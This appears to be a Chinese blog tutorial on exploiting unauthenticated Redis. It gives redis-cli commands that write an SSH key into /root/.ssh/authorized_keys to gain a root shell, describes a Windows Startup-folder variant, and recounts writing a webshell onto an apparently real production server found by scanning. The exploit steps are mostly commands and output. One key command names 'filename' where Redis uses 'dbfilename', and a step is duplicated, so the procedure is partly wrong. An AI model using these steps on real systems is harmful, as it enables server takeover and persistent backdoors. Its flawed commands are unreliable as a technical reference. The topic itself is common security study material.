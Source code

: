 ```yaml
---
title:
  Redis未授权访问原理及利用
date:
  2023-07-07 10:51:45
tags:
  web
---
```


## 0x00 前言

最近终于挖到个有点意思的漏洞，比之前卵用没有的信息泄露好点。可惜因为是Windows Server，最后没搞到shell，不过也学到点东西吧。

Redis是最流行的非关系型即key-value数据库，通常用来做缓存。我之前写Java Web的时候，存储身份信息用的session和cookie，但据说用redis做token也可以。此外，如果查询数据量大，或者对并发要求高，也需要用redis做消息队列。

说起来比较有意思的是，我最早在面试安全社团的时候就遇到过redis未授权，但直到今天才搞明白。

## 0x01 漏洞描述

言归正传，导致漏洞的原因很简单：

> Redis 默认情况下，会绑定在 0.0.0.0:6379，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将 Redis 服务暴露到公网上，如果在没有设置密码认证（一般为空）的情况下，会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下，利用 Redis 自身的提供的config 命令，可以进行**写文件操作**，攻击者可以成功将自己的ssh公钥写入目标服务器的 /root/.ssh 文件夹的authotrized_keys 文件中，进而可以使用对应私钥直接使用ssh服务登录目标服务器。

总结起来，产生条件有两点：

1. redis监听在 0.0.0.0:6379，且没有进行添加防火墙规则避免其他非信任来源ip访问等相关安全策略，直接暴露在公网。

2. 未设置登陆密码

3. (可选)redis以root权限运行

产生危害：

>Under certain conditions, if Redis runs with the root account (or not even), attackers can write an SSH public key file to the root account, directly logging on to the victim server through SSH. This may allow hackers to gain server privileges, delete or steal data, or even lead to an encryption extortion, critically endangering normal business services.

总之，如何存在redis未授权，有很大可能getshell，尤其在Linux下。

## 0x02 漏洞利用

#### 1. Linux写入SSH密钥getshell

SSH连接需要配置公钥私钥，这种配置也可以用来做免密SFTP文件传输，主要流程：

> 1、客户端生成RSA公钥和私钥
>
> 2、客户端将自己的公钥存放到服务器
>
> 3、客户端请求连接服务器，服务器将一个随机字符串发送给客户端
>
> 4、客户端根据自己的私钥加密这个随机字符串之后再发送给服务器
>
> 5、服务器接受到加密后的字符串之后用公钥解密，如果正确就让客户端登录，否则拒绝。这样就不用使用密码了。

生成密钥需要用Linux下的ssh-keygen命令，Windows下用git bash也可以直接用，生成RSA公钥私钥对：

```bash
ssh-keygen -t rsa
```

[![pCcAaZD.png](https://s1.ax1x.com/2023/07/07/pCcAaZD.png)](https://imgse.com/i/pCcAaZD)

然后就是redis未授权的利用了，上面的描述可以看出来，这个漏洞的实质就是**通过redis提供的数据库持久化命令写文件**。因此将生成的公钥写入服务器，就能使用SSH连接getshell了。

先将生成公钥文件上传到redis数据库：

```bash
cat id_rsa.pub | redis-cli -h 192.168.1.16 -p 6379 -x set crack
OK
```

这行命令实际上是先用cat打印出文件中数据，然后利用管道符将数据重定向至redis-cli，并作为-x即设置key-value值的参数，**在数据库中插入key为crack，value为公钥文件数据的一行记录**：

[![pCc13Jf.png](https://s1.ax1x.com/2023/07/07/pCc13Jf.png)](https://imgse.com/i/pCc13Jf)

此时数据插入数据库，但只是在内存中，接下来**需要使用redis持久化命令写入文件**。

然后使用redis-cli连接redis数据库进入redis命令行：

```bash
redis-cli -h 192.168.1.16 -p 6379
192.168.1.16:6379>config set dir /root/.ssh
OK
```

此时切换环境变量***dir***(即数据库所在根目录)，设置为root密钥目录。

> 此外，这里切换目录时，如果目录不存在会报错，我感觉这里可以用目录扫描+redis的INFO命令中的redis根路径来猜出实际目录结构。

```bash
192.168.1.16:6379>config set dir /root/.ssh
OK
```

这里需要**权限**，我试了下自己装的docker里redis使用这条命令会报错dir是protected变量，不能修改。

然后修改环境变量数据库持久化文件名***dbfilename***:

```bash
192.168.1.16:6379>config set filename authorized_keys
OK
```

authorized_keys是SSH连接允许的公钥列表文件的默认文件名。

> 这里我也想到一点东西，如果当前数据库目录下已经存在同名文件会怎么样？应该是覆盖

最后保存即可连接成功：

```bash
192.168.1.16:6379>save
OK
ssh -i id_rsa root@192.168.1.16
root@192.168.1.16# whoami
root
```

当然还有很多其他操作，**crontab计划任务反弹shell**也是有意思的思路，其他详见[参考](https://blog.csdn.net/q20010619/article/details/121912003)。

#### 2. Windows写入自启动目录

上面的办法简单高效，但只适用于与Linux，如果是Windows server怎么办呢？

上面参考链接的crontab反弹shell给了一个思路，就是**利用启动项**。

和Linux不太相同，Windows的自启动有几类：系统服务、计划任务、注册表启动项、用户的startup目录。其中前三种是无法通过单纯向某目录中写文件实现精准篡改的，因此只有startup目录可以利用。

startup的绝对路径如下：

`C:\Users\[username]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`

虽然想知道用户名并不容易，但把常用的用户名挨个跑一遍，万一就成功了呢？*八成是Administrator*

[![pCctKeg.png](https://s1.ax1x.com/2023/07/07/pCctKeg.png)](https://imgse.com/i/pCctKeg)

然后等待服务器重启即可（虽然还是只能等，而且要赌一把服务器会重启）。

## 0x03 实际渗透

这次扫信息发布网，终于碰到了Redis未授权:

[![pCctNOU.png](https://s1.ax1x.com/2023/07/07/pCctNOU.png)](https://imgse.com/i/pCctNOU)

所以很容易就连上了Redis数据库，用INFO命令得到一些信息，但有用的只有config_file:

[![pCct6l6.png](https://s1.ax1x.com/2023/07/07/pCct6l6.png)](https://imgse.com/i/pCct6l6)

当然此时就可以随便对数据库增删改查了，果然是非常非常危险的漏洞。但很可惜是Windows server的服务器，所以大部分getshell的操作都用不来。

不过在对服务器仔细看了下，我发现用到了nginx中间件，那么能不能写入webshell呢？听起来有点搞头。

写webshell需要两个条件：

1. 知道nginx静态文件目录的路径

2. 知道这些文件对应的URL，并且能够正常访问

老实说，两个都不容易达到。但第一个可以通过config_file的路径猜下：

[![pCctTpt.png](https://s1.ax1x.com/2023/07/07/pCctTpt.png)](https://imgse.com/i/pCctTpt)

居然很容易就猜出来了！然后写入webshell一句话木马当然也没什么难度了。

这里我其实想到可以写一个类似于disearch这种目录扫描工具做实际路径猜测，路径是否存在回显非常明显嘛。

可惜麻烦的是第二步，扫了半天目录又猜了半天，还是没办法对应起来，主要是没见过这种比较复杂的静态网站的nginx目录结构。

但是猜到了`/nginx/conf`的路径，有没有可能用ngnix.conf覆盖本来的配置呢？我感觉这也是一种有意思的思路，可惜是生产环境没办法测试。
